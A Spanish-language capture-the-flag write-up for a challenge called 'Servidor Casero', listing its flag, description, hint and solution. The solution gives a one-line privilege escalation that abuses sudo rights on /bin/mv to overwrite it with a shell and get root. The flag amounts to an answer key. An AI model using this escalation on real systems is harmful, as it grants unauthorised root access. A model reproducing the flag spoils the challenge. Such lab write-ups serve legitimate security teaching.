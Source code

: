 # Nombre: `Servidor Casero`
### Dificultad: `Hard (🃏🃏🃏🃏)`
### Categoría: `misc`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{sud03rs_3s_p3l1gr0s0!}`

### Descripción:
Camilo me pidió que le montara un servidor linux en un computador viejo para poder guardar películas. No es muy computín, así que le dejé todo listo y le enseñé un solo comando que necesita para mover las películas cuando las descarga: `sudo mv`. Dudo que alguien pueda escalar a root con eso. `nc 104.237.138.109 5003`

La flag está en /root/flag.txt y solo es legible por root.

# Hint 1:
`sudo -l`

# Solución:
El user camilo tiene sudo perms para /bin/mv. Hay muchas soluciones posibles. Un ejemplo: `cd tmp; cp /bin/sh .; sudo /bin/mv sh /bin/mv; sudo /bin/mv;` para escalar a root, y luego se puede leer la flag.
